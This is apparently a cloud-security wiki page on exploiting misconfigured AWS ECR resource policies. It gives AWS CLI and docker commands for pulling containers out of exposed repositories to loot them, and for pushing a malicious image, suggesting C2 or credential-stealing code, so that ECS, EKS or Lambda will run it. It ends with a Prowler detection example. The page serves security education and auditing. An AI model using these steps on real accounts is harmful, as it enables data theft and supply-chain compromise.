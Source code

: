 ```yaml
---
author_name: Nick Frichette
title: Abusing Misconfigured ECR Resource Policies
description: How to take advantage of misconfigured AWS ECR private repositories.
---
```


AWS Elastic Container Registry (ECR) [private repositories](https://docs.aws.amazon.com/AmazonECR/latest/userguide/Repositories.html) use resource-based policies to delineate which entities are permitted to push and pull containers. As a result, it is possible for these policies to be [misconfigured](/aws/exploitation/Misconfigured_Resource-Based_Policies/) and potentially abused. The following are some examples of possible misconfigurations and the required permissions needed to take advantage of them.

!!! Note
    Aside from the [wildcard principal](/aws/exploitation/misconfigured_resource-based_policies/#the-principal-and-risks), you should also be mindful of overbroad permissions in general, such as permitting an entire AWS account to have access.

## Understanding ecr:GetAuthorizationToken

A unique [requirement](https://docs.aws.amazon.com/AmazonECR/latest/userguide/repository-policies.html#repository-policy-vs-iam-policy) to abusing misconfigured resource-based policies in ECR is [ecr:GetAuthorizationToken](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-authorization-token.html). The attacking entity must have this permission via an identity-based policy, it cannot be permitted via a resource-based policy (even if the `Action` element is `ecr:*`). For scenarios in which the policy has a [wildcard principal](/aws/exploitation/misconfigured_resource-based_policies/#the-principal-and-risks) and a broken policy, this is not a problem as you can create a role with the needed permission.

!!! Note
    When interacting with an ECR private repository via the [Docker](https://github.com/docker/cli) cli, you use [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html) to authenticate. This calls `ecr:GetAuthorizationToken` to provide the needed authorization.

## Downloading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:BatchGetImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-get-image.html), [ecr:GetDownloadURLForLayer](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-download-url-for-layer.html).

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAll",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

This policy would permit us the ability to download containers from the vulnerable repository to our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.<region>.amazonaws.com
```

Next, we will pull the container with the following command.

```
docker pull <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

We can now loot this container for source code or other valuable information.

## Uploading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:InitiateLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/initiate-layer-upload.html), [ecr:UploadLayerPart](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/upload-layer-part.html), [ecr:BatchCheckLayerAvailability](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-check-layer-availability.html), [ecr:CompleteLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/complete-layer-upload.html), [ecr:PutImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/put-image.html).

!!! Info
    As an anecdotal aside, the number of permissions required to perform a container upload may inadvertently increase the likelihood of a `Principal` being set to `*`. If you're a developer or ops person just trying to get something done, it may be enticing to set it to a wildcard and be done with it/forget about it.

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "ExamplePolicy",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "ecr:*"
    }
  ]
}
```

This policy would permit us the ability to upload containers to the repository from our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.<region>.amazonaws.com
```

Next, we need to create/choose a container to upload. In a real world scenario you would likely want to create a container which runs your C2 of choice, or perhaps a simple script to retrieve IAM credentials. For this example, we will use an Ubuntu container.

```
docker tag ubuntu:latest <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

And finally we push the container into the repository.

```
docker push <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

Now we simply have to wait for a service (ECS, EKS, EC2, Lambda, etc.) to pull this malicious container and execute it, giving us access to that environment.

## Detection

To find exposed ECR private repositories you can use [Prowler](https://github.com/prowler-cloud/prowler), an open source tool to audit for AWS security. The following command can be used with version 3.0 or higher.

```
./prowler -c ecr_repositories_not_publicly_accessible
                         _
 _ __  _ __ _____      _| | ___ _ __
| '_ \| '__/ _ \ \ /\ / / |/ _ \ '__|
| |_) | | | (_) \ V  V /| |  __/ |
| .__/|_|  \___/ \_/\_/ |_|\___|_|v3.0-beta-21Nov2022
|_| the handy cloud security tool

Date: 2022-11-26 19:12:03

This report is being generated using credentials below:

AWS-CLI Profile: [default] AWS Filter Region: [all]
AWS Account: [000000000000] UserId: [AROAQQPLEQBZZHQGGAQ55:Nick]
Caller Identity ARN: [arn:aws:sts::000000000000:assumed-role/snip/Nick]

Executing 1 checks, please wait...

-> Scan is completed! |▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉| 1/1 [100%] in 4.5s 

Overview Results:
╭───────────────────┬─────────────────╮
│ 100.0% (1) Failed │ 0.0% (0) Passed │
╰───────────────────┴─────────────────╯

Account 009619941490 Scan Results (severity columns are for fails only):
╭────────────┬───────────┬──────────┬────────────┬────────┬──────────┬───────╮
│ Provider   │ Service   │ Status   │   Critical │   High │   Medium │   Low │
├────────────┼───────────┼──────────┼────────────┼────────┼──────────┼───────┤
│ aws        │ ecr       │ FAIL (1) │          1 │      0 │        0 │     0 │
╰────────────┴───────────┴──────────┴────────────┴────────┴──────────┴───────╯
```

!!! Note
    `Condition` elements may induce false positives.
